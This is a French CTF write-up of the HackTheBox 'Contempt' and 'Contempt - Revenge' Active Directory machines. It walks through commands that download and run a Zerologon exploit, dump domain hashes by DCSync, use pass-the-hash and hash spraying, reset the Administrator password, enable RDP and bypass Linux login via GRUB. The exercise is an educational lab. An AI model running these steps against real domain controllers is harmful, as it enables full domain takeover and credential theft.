---
authors:
  - xThaz
title: "Writeup Contempt"
description: "Fullpwn Active Directory sur Contempt et Contempt Revenge : Zerologon, pivot Hyper-V, GRUB et chemins unintended jusqu'aux flags."
publicationDate: 2023-08-31 00:00:00+0000
cover: ../../../assets/blog/contempt-fullpwn/manager.png
coverAlt: "HTB Business 2023 - Contempt"
categories:
  - Fullpwn
tags:
  - HackTheBox
  - Business CTF
  - Fullpwn
---

## Contexte

Contempt était une machine Active Directory classée difficile, présente au HackTheBox Business CTF 2023. Cet article explique comment j'ai trouvé deux chemins unintended qui m'ont permis d'obtenir le flag root très rapidement, à la fois sur **contempt** et sur **contempt - revenge** (censée corriger le chemin unintended).

## Contempt

### Recon

#### Ports

Comme toujours face à une machine HackTheBox, il faut l'énumérer. Pour cela, j'utilise [rustscan](https://github.com/RustScan/RustScan/), qui est simplement une surcouche à nmap.
Cet outil est assez pratique, car il scanne d'abord les ports ouverts, puis permet de lancer les options nmap classiques. C'est plus optimisé qu'un nmap basique.

```bash
rustscan -a 10.129.235.160 -- -T4 -sVC -Pn -oN scan/nmap.md
```



Ici, nous voyons pas mal de ports. Mais nous pouvons déjà avoir une idée assez claire de ce que nous avons.
- 53 : DNS
- 88 : Kerberos
- 135 : RPC
- 139 : Netbios
- 445 : SMB
- 389 / 636 / 3268 / 3269 : LDAP(s)

Nous pouvons affirmer avec confiance que nous avons affaire à un Windows Active Directory.

[2179](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml?search=2179) ? Je n'avais jamais vu ça avant, qu'est-ce que c'est ?



D'accord, nous avons peut-être affaire à de l'HyperV ; gardons ça en tête.

#### FQDN

Lorsqu'on attaque un Active Directory, il faut toujours résoudre son nom de domaine pleinement qualifié, car c'est ainsi que certains protocoles communiquent entre eux.

La première chose à faire est d'énumérer le nom de domaine, le nom de la machine, et de vérifier si nous avons accès à certaines fonctionnalités ou informations.

Pour cela, j'ai lancé [enum4linux-ng](https://github.com/cddmp/enum4linux-ng). Il permet d'essayer différents identifiants, comme des connexions Anonymous ou Guest.

```bash
enum4linux-ng -A 10.129.235.160
```



Ajoutons ces FQDN à notre fichier hosts comme ceci : 

```text
10.129.235.160 dc01 dc01.contempt.htb contempt.htb
```

Nous pouvons noter plusieurs choses ici :
- Nom de la machine : dc01
- Nom de domaine : contempt.htb
- Le SID du domaine (qui peut être utile pour certains chemins d'attaque)
- Version de l'OS : Windows 2016 10.0

Windows Server 2016 ? 🤔
Ce n'est pas tout neuf mdr.

#### Foothold

La première fois que j'ai attaqué la machine, j'ai lancé le scan trop rapidement et la machine n'était pas complètement démarrée. Je n'ai donc pas vu tous les ports ci-dessus. Voici ce que je pensais être la surface d'attaque :

```text
Open 10.129.233.228:53
Open 10.129.233.228:88
Open 10.129.233.228:135
Open 10.129.233.228:139
Open 10.129.233.228:389
Open 10.129.233.228:445
Open 10.129.233.228:464
Open 10.129.233.228:593
Open 10.129.233.228:636
Open 10.129.233.228:2179
Open 10.129.233.228:3268
Open 10.129.233.228:3269
Open 10.129.233.228:9389
```

Je n'avais ni HTTPS ni WinRM.

Comme vu plus haut, nous ne pouvons pas nous connecter à la machine avec des identifiants par défaut ni anonymement. Mais dans un environnement Active Directory, il nous faut rapidement des noms d'utilisateur et des identifiants pour commencer l'exploitation.

J'ai donc décidé de tenter quelques quick wins, puisque c'est un serveur 2016. Avec un peu de chance, cela peut fonctionner et donner un accès intéressant. Voici la toute première commande que j'ai lancée.

```bash
crackmapexec smb dc01.contempt.htb -M zerologon
```




### Root

#### Zerologon (CVE-2020-1472)

Zerologon est une vulnérabilité bien connue, divulguée en septembre 2020. Elle exploite le protocole NetLogon. Ce protocole permet l'ouverture de sessions distantes basées sur des appels RPC, mais permet aussi à un ordinateur de mettre à jour le mot de passe de son compte machine de domaine depuis un contrôleur de domaine. À cause d'une configuration cryptographique faible, nous pouvons définir tous les challenges à `00000000000000000000000000000000` et usurper l'appel permettant de changer le mot de passe du compte machine du domaine.

C'est ce que nous allons faire ici : vider le mot de passe du compte de domaine `DC01$`. Les comptes qui se terminent par `$` sont les comptes machines du domaine.

```bash
wget https://raw.githubusercontent.com/dirkjanm/CVE-2020-1472/master/cve-2020-1472-exploit.py
python3 cve-2020-1472-exploit.py DC01 10.129.235.160
```

Nous pouvons maintenant nous connecter avec `DC01$` comme si c'était un utilisateur classique, et lister les shares.

```bash
crackmapexec smb dc01.contempt.htb -d 'contempt.htb' -u 'DC01$' -p '' --shares
```




Cela signifie que notre exploit a bien fonctionné. Malheureusement, rien d'intéressant ici. J'ai aussi essayé de voir si une GPO stockée dans le share `SYSVOL` contenait un mot de passe chiffré.

```bash
crackmapexec smb dc01.contempt.htb -d 'contempt.htb' -u 'DC01$' -p '' -M gpp_password
```



Mais aucun mot de passe.

#### DCSync avec DC01$ vide

Une astuce très utile, maintenant que nous avons le compte machine, est que nous disposons des privilèges étendus `DS-Replication-Get-Changes` et `DS-Replication-Get-Changes-All`. Cela signifie que nous pouvons utiliser DCSync pour récupérer toutes les données du contrôleur de domaine, comme : 
- Les noms d'utilisateur et hashes des comptes du domaine
- Les clés Kerberos
- Les mots de passe stockés avec chiffrement réversible
- Les secrets LSA

```bash
crackmapexec smb dc01 -u 'DC01$' -p '' --ntds
```



Nous avons maintenant tous les hashes, nous pouvons usurper qui nous voulons avec du pass-the-hash.




#### Obtenir un shell

Récupérons l'utilisateur le plus privilégié : Administrator. Comme je n'avais pas vu le port WinRM au premier scan, nous devons énumérer les shares SMB pour voir si nous avons accès à `C$`.

```bash
crackmapexec smb dc01.contempt.htb -d 'contempt.htb' -u 'Administrator' -H '8845ad387f66869ab9768c8a7b08b36f' --shares
```



Pas de `C$` ici, mais pas de panique. Nous avons la permission **write** sur `NETLOGON` ! Nous pouvons donc utiliser par exemple `wmiexec.py` de [impacket](https://github.com/fortra/impacket).

```bash
wmiexec.py 'contempt.htb/Administrator@dc01.contempt.htb' -hashes ':8845ad387f66869ab9768c8a7b08b36f' -dc-ip 10.129.235.160 -share NETLOGON -shell-type powershell
```



```powershell
type C:\Users\Administrator\Desktop\root.txt
```



Hmmm, ce n'est pas très courant. Habituellement sur HackTheBox, on obtient d'abord le user.txt puis le root.txt une fois la box terminée !
Comme je ne trouve pas le user.txt sur la machine, je vais demander aux admins.



Pas sur le système de fichiers Windows ? 🤔


### User

#### Recon

Comme nous ne savons toujours pas où se trouve user.txt, faisons encore un peu d'énumération.

Nous pouvons utiliser le module ioxidresolver de crackmapexec pour scanner les interfaces actives des machines ; il y a peut-être une autre machine sur le réseau interne.

```bash
crackmapexec smb dc01.contempt.htb -u 'Administrator' -H '8845ad387f66869ab9768c8a7b08b36f' -M ioxidresolver
```



D'accord, cela a du sens : nous devons trouver un système Linux, mais nous sommes sur une machine Windows. Il y a donc deux hypothèses :
- Il existe une autre machine joignable uniquement via le DC
- Le Linux est virtualisé sur l'Active Directory

Vous vous souvenez des ports découverts au début ? Du port 2179 ? Nous avions dit qu'une machine virtuelle HyperV était probablement impliquée.

Pendant la box, j'ai d'abord vu un répertoire intéressant :



Dans ce répertoire, nous avons trouvé la configuration de nextcloud.



Il y a un reverse proxy qui redirige `nextcloud.contempt.htb` vers `172.16.20.1`. Si vous vous souvenez bien, je n'avais pas le port 443 dans mon premier nmap, donc je suis passé à côté. C'est cet oubli qui m'a fait penser à utiliser Zerologon, car je ne trouvais pas de surface d'attaque exploitable.

Très bien, mais comment entrer dans la VM ? Nous pouvons utiliser HyperV Manager, mais il nous faut une interface graphique.

#### Activer RDP

Nous allons activer RDP et ouvrir le bon port, puisque nous n'avions pas vu le port 3389 dans nos résultats nmap.

```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

#### Ajouter votre compte aux utilisateurs Remote Desktop

Comme notre utilisateur est Enterprise Admin, nous pouvons utiliser RDP sans rien faire. Mais si nous étions un utilisateur normal ou simplement Domain Admin, nous devrions peut-être ajouter notre utilisateur à `Remote Desktop User`, par exemple :

```powershell
net localgroup "Remote Management Users" echo.rivers /add
```

#### Se connecter à la machine avec RDP

Mais si vous essayez de vous connecter à la machine avec du pass-the-hash, un message d'erreur indique qu'il est impossible de se connecter avec un mot de passe vide.



Dans ce cas, vous pouvez faire deux choses :
- Modifier la policy pour accepter les connexions avec mot de passe vide
- Changer le mot de passe de l'utilisateur

La deuxième option est la plus rapide, puisque je connais la commande :

```powershell
net user Administrator JaiEnfinFiniMonDonjonDiabl0!
```

Nous pouvons maintenant nous connecter à la machine avec xfreerdp : 

```bash
xfreerdp /v:'dc01' /d:'contempt.htb' /u:'Administrator' /p:'JaiEnfinFiniMonDonjonDiabl0!' +clipboard /dynamic-resolution /cert:ignore
```

#### Accéder à Hyper-V Manager

Pour atteindre le bon panel, nous faisons ceci : 

`Windows -> Server Manager -> Tools -> HyperV Manager`



Voici notre VM nextcloud !



Mais elle demande des identifiants dans le CLI. J'ai donc commencé à beaucoup galérer. J'ai cliqué par erreur sur la fonctionnalité "Checkpoint", qui crée un snapshot, et cela a rendu la VM inutilisable. J'ai donc décidé de supprimer le checkpoint et de redémarrer la machine. J'ai alors vu le loader Grub.

#### Contourner l'authentification

Je me suis alors souvenu d'un [challenge root-me](http://root-me.org/) que j'avais résolu il y a quelque temps. Il est possible de bypass l'authentification d'une machine si grub est installé et si le bootloader n'est pas chiffré, en suivant [cet article](https://memo-linux.com/grub2-contourner-lauthentification-linux-mot-de-passe-utilisateur-ou-root-oublie/).

Au démarrage de grub, appuyez sur "e" pour modifier la configuration de démarrage. Ajoutez ensuite `init=/bin/bash` après le premier UUID. Sauvegardez la configuration avec `Ctrl + x`.

Continuez le boot afin d'obtenir un shell root.

```bash
cat /root/user.txt
```




## Contempt - Revenge

Quelques heures plus tard, nous avons reçu une notification Discord indiquant que `Contempt - Revenge` était sortie et corrigeait le chemin unintended.



Comme je n'avais aucune idée de la manière d'exploiter proprement ce que j'avais fait, j'ai décidé de ne pas m'y attaquer. Puis j'ai regardé le nombre de solves...



Ça ne devrait pas être si difficile :)

### Root

Comme nous avons déjà beaucoup d'informations de la machine précédente, avec un peu de chance nous pouvons les réutiliser !

#### Hash spraying

Il est temps de spray des hashes avec crackmapexec.

```bash
crackmapexec smb dc01.contempt.htb -u domain_users.txt -H '6c8f447c25487adc9148b0a90036c6a8'
```



D'accord, le hash Administrator ne fonctionne sur aucun utilisateur. Essayons d'autres utilisateurs, par exemple le hash d'un utilisateur du domaine sans droits particuliers.

```bash
crackmapexec smb dc01.contempt.htb -u domain_users.txt -H '2f320b121f6ae368a35ba9819e0d2516' --continue-on-success
```





Comme nous savons grâce à la machine précédente que `aria.frost` et `echo.rivers` sont domain admins, voyons si nous pouvons obtenir Domain Admin.



Le **Pwn3d!** signifie que nous sommes aussi administrateur local de la machine. Game over : nous pouvons simplement répéter les étapes d'exploitation précédentes depuis [obtenir un shell](#obtenir-un-shell).

## Pour conclure

C'est toujours amusant de trouver un chemin unintended dans un challenge CTF. Mais on ne peut pas blâmer le créateur du challenge : il est toujours difficile de penser à tous les chemins d'exploitation possibles.

Même si vous faites un hotfix pendant le CTF, vous ne pouvez pas être certain d'avoir corrigé tous les chemins unintended.

En effet, après la publication de la solution supposée, je dois admettre que je suis content qu'il y ait eu ces unintended amusants. J'ai pris plaisir à faire cette box de cette manière 😊
